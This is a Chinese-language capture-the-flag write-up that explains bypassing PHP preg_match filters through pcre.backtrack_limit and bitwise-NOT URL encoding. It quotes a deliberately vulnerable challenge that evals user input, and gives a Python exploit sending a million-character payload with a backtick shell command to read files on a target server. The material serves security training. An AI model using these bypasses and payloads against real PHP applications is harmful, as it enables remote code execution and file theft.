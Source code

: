 ##### 1、preg_match()

```php
preg_match($pattern,$subject [, &$matches [, $flags = 0 [, $offset = 0 ]]]);
```

>$pattern：要搜索的模式，也就是编辑好的正则表达式；
>$subject：要搜索的字符串；
>$matches：可选参数（数组类型），如果提供了 $matches，它将被填充为搜索结果。 $matches[0] 包含完整模式匹配到的文本， $matches[1] 包含第一个捕获子组匹配到的文本，以此类推；
>flags：可选参数，flags 可以被设置为 PREG_OFFSET_CAPTURE，如果传递了这个标记，对于每一个出现的匹配，返回时都会附加上字符串偏移量（相对于目标字符串的）；
>$offset：可选参数，用于指定从目标字符串的哪个位置开始搜索（单位是字节）。

绕过原理：pcre.backtrack_limit

php为了防止DDoS攻击设计了访问上限，一般来说默认的访问限制次数是十万到一百万，只要提交的字符串在匹配函数的调用过程中，函数回溯超过这个上限，那么函数自动返回``false``来结束运行。

下面是一个例子（[NISACTF 2022]middlerce）：

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

php源码中显示了关键的正则表达式，我们通过构造多个``$``来强迫其返回``false``，构造的exp如下：

```python
import threading
import requests
payload = '{"cmd":"?><?= `tail /f*`?>", "$":"' + "$"*(1000000) + '"}'
res = requests.post("http://1.14.71.254:28159/",data = {"letter":payload})
print(res.text)
```

此外，还可以通过url编码取反的方式绕过

```php
<?php
echo urlencode(~("phpinfo();"));
?>
```
